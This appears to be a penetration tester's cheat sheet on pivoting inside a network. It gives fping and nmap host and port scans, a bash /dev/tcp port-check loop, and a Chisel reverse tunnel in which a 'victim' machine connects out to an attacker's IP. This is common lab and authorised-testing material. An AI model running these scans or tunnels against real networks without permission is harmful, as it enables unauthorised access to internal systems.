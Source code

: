 ### [Resources on pivoting]

https://www.offensive-security.com/metasploit-unleashed/pivoting/  

### [fping]

You can use fping to quickly ping hosts within a network.

https://fping.org/

https://fping.org/dist/

```
fping -q -a -g -r 1 <IP>/24
```

### [Portable NMAP Scanner]

You can scan and enumerate ports on a list of ports.

```
./nmap -iL ip_list.txt --min-rate=6000
```

https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap  

### [Port Forwarding using Chisel]

ippsec demonstration

https://www.youtube.com/watch?v=Yp4oxoQIBAM&t=1620&ab_channel=IppSec

Breakdown

https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html

```
Victims Box: ./chisel client <attackersIP>:8011 R:1234:127.0.0.1:1234
Attackers Box: ./chisel server -p 8011 --reverse
```

### port checking

```
for PORT in {0..1000}; do timeout 1 bash -c "</dev/tcp/<IP>/$PORT &>/dev/null" 2>/dev/null && echo "port $PORT is open"; done
```
